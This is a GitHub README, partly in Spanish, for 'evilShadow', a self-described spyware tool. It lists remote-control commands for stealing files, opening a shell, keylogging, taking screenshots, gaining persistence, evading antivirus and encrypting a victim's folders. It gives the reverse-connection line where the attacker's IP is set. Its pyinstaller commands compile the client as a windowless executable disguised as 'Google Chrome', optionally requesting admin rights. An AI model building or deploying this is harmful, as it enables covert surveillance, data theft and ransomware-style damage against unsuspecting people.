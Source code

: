 # evilShadow

SpyWare. The project is currently developing…...


# Functions
(N/A) -> Not Implemented yet
```
                Aviable Commands:

                    | [!>] download <path>   -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] downloadDir <dir> -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] startTask         -> Monitoring & kill tasks managers
                    ---------------------------------------------------------
                    | [!>] check             -> Check For Administrator Privileges
                    ---------------------------------------------------------
                    | [!>] sysinfo           -> Get System Information
                    ---------------------------------------------------------
                    | [!>] shell             -> Enter Shell Mode 
                    ---------------------------------------------------------
                    | [!>] av                -> Try Detect Anti-Virus
                    ---------------------------------------------------------
                    | [!>] upload <path>     -> Upload local File To Target PC
                    ---------------------------------------------------------
                    | [!>] get <url>         -> Download A File To Target PC From Any Website
                    ---------------------------------------------------------
                    | [!>] persistence       -> Try to get persistence (needed root)
                    ---------------------------------------------------------
                    | [!>] lowpersistence    -> Try to get persistence (no root)
                    ---------------------------------------------------------
                    | [!>] exec <command>    -> Exec command in no shell mode
                    ---------------------------------------------------------
                    | [!>] cryptDir <dir>    -> Crypt a full folder in target
                    ---------------------------------------------------------
                    | [!>] crypt <file>      -> Crypt a file in target
                    ---------------------------------------------------------
                    | [!>] keylog_dump       -> Dump The Keystrokes From Keylogger
                    ---------------------------------------------------------
                    | [!>] screenshot        -> Take a screenshot
                    ---------------------------------------------------------
                    | [!>] cryptAll          -> (N/A) Close connex and crypt full system
                    ---------------------------------------------------------
                    | [!>] destruction       -> (N/A) Eliminate all and close conect
                    --------------------------------------------------------- 
                    | [!>] q                 -> Suspend the conection
                    ---------------------------------------------------------
                    | [!>] exit              -> Terminate the conection
                    ---------------------------------------------------------
```

# Detections:
![image](https://github.com/an0mal1a/evilShadow/assets/129337574/684c71c5-eef2-41f4-bc99-82dd05dbe260)
hash: 8f361df2687c1d5ac2c9a251ab8903cea2de914305420842b566726926903b5b



## New Enviorment:
- **¿Por que?**
    
  - Una de las razones es para no tener conflictos y no tener otras librerias al compilar.
  - Al crearnos un nuevo entono virtual, el .exe estará cargado con las libriras intaladas en ese entorno.
  - El .exe / .bin pesará de **"30MB"** a **"14MB"**
    

- Windows:
   1. `python -m venv new`
   2. `.\new\Scripts\activate`

    
 - Linux:
   1. `python3 -m venv new`
   2. `new/bin/activate`

PD: Para salir de este entorno, con el comando **"deactivate"** salimos del enterno nuevo de vuelta al del sistema


# Requirements

Automated:

- ```pip install -r requirements.txt```

Manal:

- ```pip install prompt_toolkit colorama psutil cryptography requests pillow pynput pyinstaller```


# Errors:

- Si tenemos errores con las librerias (module not found):
  - ```pip install prompt_toolkit colorama psutil cryptography requests pillow pynput pyinstaller``` 


- Si tenemos el error **"pyinstaller not found"** en el *nuevo entorno*!

    - **Windows**
      - where pyinstaller
      
            D:\ProtectosPython\ETHICAL_HACKING\winenv\Scripts\pyinstaller.exe
            C:\Program Files\Python310\Scripts\pyinstaller.exe``
    
      - Usar ruta completa de pyinstaller (nuevo)
      
             D:\ProtectosPython\ETHICAL_HACKING\winenv\Scripts\pyinstaller.exe --noconsole ....
    


# Preparación:


En el script **Connection.py** en la línea *239* tenemos la línea que crea la conexión. La modificamos a la direccion ip
del atacante

-     sock.connect ( ( '127.0.0.1' ,1337) )

Una véz hecho esto podremos ejecutar el script, no requerimos de ningún cambio más.


# **Compilación**

- Tenemos varias opciones: (Accedemos a la carpeta CLIENT)

  ### Automatic
    - `client>pyinstaller compilation.spec`

  ### Windows:

  - Admin Required:
  
      `client>pyinstaller --onefile --noupx --strip --noconsole --clean --uac-admin -n "Google Chrome" conection.py`

  - **NO** Admin Required:
  
      `client>pyinstaller --onefile --noupx --strip --noconsole --clean -n "Google Chrome" conection.py`

  ### Linux:
  
  `client>pyinstaller --onefile --noupx --strip --noconsole --clean -n "Google Chrome" conection.py`
